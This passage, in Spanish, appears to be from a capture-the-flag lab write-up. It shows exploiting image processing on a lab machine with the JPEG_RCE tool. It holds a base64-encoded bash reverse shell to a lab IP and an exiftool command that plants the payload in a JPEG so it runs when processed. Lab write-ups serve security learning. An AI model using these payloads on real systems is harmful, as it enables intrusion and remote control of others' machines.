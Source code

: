   <img src="/assets/images/meta/03-page3.png">       
  </p>

## EXPLOIT

Para esta ocasión vamos a hacer uso de la herramienta [JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE) del github de `OneSecCyber`

Ingresamos a nuestra carpeta `exploit` y procedemos a descargar la herramienta.

```bash
❯ cd ../exploit/
https://github.com/OneSecCyber/JPEG_RCE
git clone https://github.com/OneSecCyber/JPEG_RCE.git
cd JPEG_RCE

```

A continuación, codificaremos una reverse shell de bash en base64, esto para que pueda ser interpretado el comando al momento de subir el archivo a la maquina víctima.

```bash
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.78/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDQ0IDA+JjEnCg==
```
Luego de obtener la codificación, ejecutamos el siguiente comando sugerido en la documentación de la herramienta que descargamos anteriormente.

```bash
❯ exiftool -config eval.config runme.jpg -eval='system("echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDQ0IDA+JjEnCg==' | base64 -d | bash")'
    1 image files updated
```
